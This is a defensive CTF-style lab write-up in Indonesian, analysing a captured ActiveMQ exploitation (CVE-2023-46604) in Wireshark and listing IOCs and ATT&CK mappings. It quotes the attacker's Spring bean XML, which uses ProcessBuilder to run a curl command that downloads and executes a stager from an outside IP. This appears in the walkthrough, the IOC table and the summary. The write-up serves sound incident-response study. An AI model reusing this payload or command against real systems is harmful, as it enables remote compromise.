





# OpenWire Lab — CyberDefenders

> **Platform:** CyberDefenders
> **Category:** Network Forensics
> **Difficulty:** Medium
> **Status:** ✅ Completed
> **Date:** 2026-08-14
> **Time Spent:** ~1 jam 30 menit

---

## 📌 Prolog

Investigasi Java deserialization vulnerability di Apache ActiveMQ yang memungkinkan remote code execution lewat insecure class loading.

**Tools:** Wireshark | Zui | Network Miner

**Tactics yang tercakup:** Initial Access | Execution | Command and Control

**Catatan:** lab ini berstatus *Retired* di platform CyberDefenders.

---

## 🎯 Scenario

Selagi shift jadi tier-2 SOC analyst, lo dapet eskalasi dari tier-1 analyst soal public-facing server. Server ini keflag karena bikin outbound connection ke beberapa IP yang mencurigakan. Sebagai respons, lo jalanin standard incident response protocol — termasuk isolasi server dari network buat cegah potential lateral movement atau data exfiltration, dan ambil packet capture dari NSM utility buat dianalisis. Tugas lo: analisis pcap-nya dan assess tanda-tanda malicious activity.

---

## ❓ Questions

1. By identifying the C2 IP, we can block traffic to and from this IP, helping to contain the breach and prevent further data exfiltration or command execution. Can you provide the IP of the C2 server that communicated with our server?
2. Initial entry points are critical to trace the attack vector back. What is the port number of the service the adversary exploited?
3. Following up on the previous question, what is the name of the service found to be vulnerable?
4. The attacker's infrastructure often involves multiple components. What is the IP of the second C2 server?
5. Attackers usually leave traces on the disk. What is the name of the reverse shell executable dropped on the server?
6. What Java class was invoked by the XML file to run the exploit?
7. To better understand the specific security flaw exploited, can you identify the CVE identifier associated with this vulnerability?
8. The vendor addressed the vulnerability by adding a validation step to ensure that only valid Throwable classes can be instantiated, preventing exploitation. In which Java class and method was this validation step added?

---

## 🔍 Answer & Walkthrough

### 1. IP C2 server yang komunikasi sama server kita

Mulai dari **Statistics → Conversations (IPv4)** di Wireshark. Cuma ada 3 conversation di pcap ini, dan satu di antaranya jomplang jauh dibanding dua lainnya:

| Address A | Address B | Packets | Bytes | Duration |
|---|---|---|---|---|
| 84.239.49.16 | 134.209.197.3 | 12 | 712 bytes | 3.28s |
| 134.209.197.3 | 128.199.52.72 | 10 | 1 kB | 0.0075s |
| **146.190.21.92** | **134.209.197.3** | **4.867** | **5 MB** | **294.42s** |



`146.190.21.92` jelas paling mencurigakan — volume traffic-nya jauh lebih gede dan durasinya paling lama. Di-follow lebih lanjut pakai filter `ip.src==146.190.21.92`, ketauan dia yang mulai 3-way handshake ke `134.209.197.3` di port `61616`, ngirim exploit packet, terus victim balik connect outbound ke dia buat fetch payload XML (`/invoice.xml`).

**Catatan penting soal arah traffic:** awalnya sempet ketuker mikir C2 itu harus pasif nunggu beacon dari victim (kayak model C2 klasik/agent-based). Tapi di kasus ini, `146.190.21.92` mainin dua peran sekaligus — **exploiter aktif** (nembak duluan ke service yang exposed) DAN **C2/payload host** (abis servernya ke-compromise, dia yang diakses balik buat serve payload config & kemungkinan jadi channel reverse shell). Jadi tetep valid disebut C2, cuma modelnya "active exploitation → C2" bukan "beacon-based C2".

**Jawaban:** `146.190.21.92`

---

### 2. Port yang di-exploit attacker

Dari packet pertama di conversation itu: `47284 → 61616 [SYN]`. Port `61616` itu default port buat **OpenWire protocol**-nya Apache ActiveMQ.



**Jawaban:** `61616`

---

### 3. Nama service yang vulnerable

Wireshark langsung ngenalin protokolnya di kolom Protocol sebagai `OpenWire` (dissector built-in Wireshark buat protokol ini). Port 61616 + protokol OpenWire = **Apache ActiveMQ**, message broker berbasis Java.

**Jawaban:** `Apache ActiveMQ`

---

### 4. IP C2 server kedua

Setelah exploit awal berhasil, victim (`134.209.197.3`) fetch `/invoice.xml` dari `146.190.21.92:8000`. Isi XML-nya (liat jawaban #5 & #6 di bawah) ternyata ngandung command yang nyuruh server buat `curl` file dari IP lain:

```
curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker
```

Beda sama `146.190.21.92` yang aktif nge-exploit + host payload config + kemungkinan jadi reverse shell channel, `128.199.52.72` cuma dipanggil buat **satu keperluan**: nyimpen/serve file stager (`docker`). Makanya traffic ke dia kecil banget (cuma 10 packets/1kB, sesuai satu HTTP GET doang). Perannya lebih ke *staging server* buat komponen kedua di infrastruktur attacker.

**Jawaban:** `128.199.52.72`

---

### 5. Nama reverse shell executable yang di-drop

Masih dari command curl yang sama — file yang di-download disimpen sebagai `/tmp/docker`, terus di-`chmod +x` dan langsung dieksekusi (`./tmp/docker`). Nama file-nya sengaja disamarin jadi kayak binary Docker yang legit biar nggak mencolok.



**Jawaban:** `docker`

---

### 6. Java class yang dipanggil XML buat jalanin exploit

Dari isi XML yang sama (screenshot di atas), ada Spring bean definition:

```xml
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
  <constructor-arg>
    <list>
      <value>bash</value>
      <value>-c</value>
      <value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
    </list>
  </constructor-arg>
</bean>
```

Class `java.lang.ProcessBuilder` di-instantiate langsung sama Spring context dan di-trigger jalan (`init-method="start"`) buat eksekusi shell command di atas — ini teknik klasik abuse Spring's `ClassPathXmlApplicationContext` buat dapetin RCE dari file XML yang attacker-controlled.

**Jawaban:** `java.lang.ProcessBuilder`

---

### 7. CVE identifier

Konfirmasi ke advisory resmi Apache ActiveMQ ("Update on CVE-2023-46604", published Nov 3, 2023) — celah ini ada di OpenWire marshaller yang deserialize `ExceptionResponse` command tanpa validasi class name-nya beneran extend `Throwable`, yang bisa disalahgunain buat instantiate class arbitrary (kayak `ClassPathXmlApplicationContext`) via reflection.



**Jawaban:** `CVE-2023-46604`

---

### 8. Class & method tempat vendor nambahin validasi

Cek commit fix-nya di GitHub — **AMQ-9370** ("Openwire marshaller should validate Throwable class type", PR #1098, merged Oct 24, 2023). Validasi ditambahin di method `createThrowable(String className, String message)` dalam class `BaseDataStreamMarshaller.java`, lewat pemanggilan `OpenWireUtil.validateIsThrowable(clazz)` sebelum instantiate object-nya.



**Jawaban:** `BaseDataStreamMarshaller.createThrowable` (validasi ditambahin lewat `OpenWireUtil.validateIsThrowable()`)

---

## 🚨 Key Findings / IOCs

| Tipe | Value | Keterangan |
|------|-------|------------|
| IP Address | `146.190.21.92` | Primary C2 — exploit source, host `/invoice.xml` di port 8000, kemungkinan reverse shell channel |
| IP Address | `128.199.52.72` | Secondary C2 / staging server — host file `docker` (stager payload) |
| Port | `61616` | Default port Apache ActiveMQ OpenWire — port yang di-exploit |
| Port | `8000` | Port HTTP yang host malicious XML (`/invoice.xml`) di `146.190.21.92` |
| File Path | `/tmp/docker` | Reverse shell/stager executable yang di-drop & dieksekusi di server |
| File Path | `/invoice.xml` | Malicious Spring bean XML config yang di-fetch dari C2 |
| CVE | `CVE-2023-46604` | Apache ActiveMQ OpenWire RCE — insecure class instantiation via `ExceptionResponse` |
| Java Class | `java.lang.ProcessBuilder` | Class yang di-invoke via Spring bean buat eksekusi shell command |
| Command | `curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker` | Command yang dijalanin buat download & eksekusi stager |

---

## 🗺️ MITRE ATT&CK Mapping

| Tactic | Technique | ID | Keterangan |
|--------|-----------|----|------------|
| Initial Access | Exploit Public-Facing Application | T1190 | Exploit CVE-2023-46604 langsung ke ActiveMQ OpenWire service yang exposed ke internet |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 | Payload XML nyuruh `ProcessBuilder` jalanin `bash -c` buat eksekusi command |
| Command and Control | Ingress Tool Transfer | T1105 | Download stager `docker` dari secondary host (`128.199.52.72`) via `curl` |
| Command and Control | Application Layer Protocol: Web Protocols | T1071.001 | C2 config (`/invoice.xml`) & kemungkinan reverse shell channel di-tunnel lewat HTTP/HTTPS |

---

## 📋 Summary — Attacker Behavior & Todo

### Attacker Behavior

Investigasi dimulai dari cek **Statistics → Conversations** buat nyari anomali di pcap ini. Ada 3 conversation total, dan satu di antaranya — antara `146.190.21.92` dan `134.209.197.3` — langsung mencolok karena volume traffic-nya jomplang jauh (4.867 packets, 5MB, durasi 294 detik) dibanding dua conversation lain yang cuma belasan packet.

Attacker (`146.190.21.92`) mulai dengan 3-way handshake langsung ke port `61616` — port default **Apache ActiveMQ OpenWire**, yang emang publicly exposed sesuai scenario. Abis handshake, broker ActiveMQ ngirim `WireFormatInfo` (protokol behavior standar), tapi attacker balas dengan packet `ExceptionResponse` yang Wireshark flag sebagai *Malformed Packet* — ini bukan error, ini exploit **CVE-2023-46604** itu sendiri. Packet-nya nyamar jadi command exception tapi sebenernya ngandung class name (`ClassPathXmlApplicationContext`) dan URL (`http://146.190.21.92:8000/invoice.xml`) yang di-deserialize pakai reflection tanpa validasi.

Begitu ke-trigger, `134.209.197.3` (victim) yang tadinya cuma nerima koneksi, sekarang balik connect **outbound** ke `146.190.21.92:8000` buat fetch `/invoice.xml`. File XML ini isinya Spring bean definition yang instantiate `java.lang.ProcessBuilder` dan langsung jalanin `bash -c` buat eksekusi command: download stager (`docker`) dari IP kedua (`128.199.52.72`), `chmod +x`, terus dieksekusi.

Poin penting: `146.190.21.92` di sini mainin peran ganda — dia yang **aktif nge-exploit** (bukan nunggu beacon kayak C2 klasik) SEKALIGUS jadi **host payload & kemungkinan channel C2/reverse shell**. Sementara `128.199.52.72` cuma dipake buat satu keperluan spesifik: nyimpen file stager yang di-download via curl — perannya lebih ke *staging server* ketimbang C2 aktif.

### Todo / Follow-up

- [ ] Cek isi payload/behavior binary `docker` kalau ada sample-nya — apakah beneran reverse shell atau ada fungsi lain (persistence, credential theft, dll)
- [ ] Investigasi traffic port 443 (SSLv2/encrypted) di conversation `146.190.21.92` — kemungkinan besar ini reverse shell channel yang perlu dianalisis lebih lanjut kalau ada key/decrypt method
- [ ] Pelajari lebih dalam soal `activemq-openwire-legacy` codebase — gimana versi `v1` sampai `v8` dari `BaseDataStreamMarshaller` beda-beda handling-nya sebelum patch
- [ ] Bandingin CVE-2023-46604 sama CVE serupa di produk Java lain yang pake pattern reflection-based deserialization tanpa validasi tipe

---

## 📚 References

- [CyberDefenders — OpenWire Lab](https://cyberdefenders.org/)
- [Apache ActiveMQ — Update on CVE-2023-46604](https://activemq.apache.org/news/cve-2023-46604)
- [GitHub — AMQ-9370: Openwire marshaller should validate Throwable class type (PR #1098)](https://github.com/apache/activemq-openwire-legacy)

---

*Writeup ini dibuat sebagai bagian dari perjalanan belajar Blue Team / SOC Analyst.*
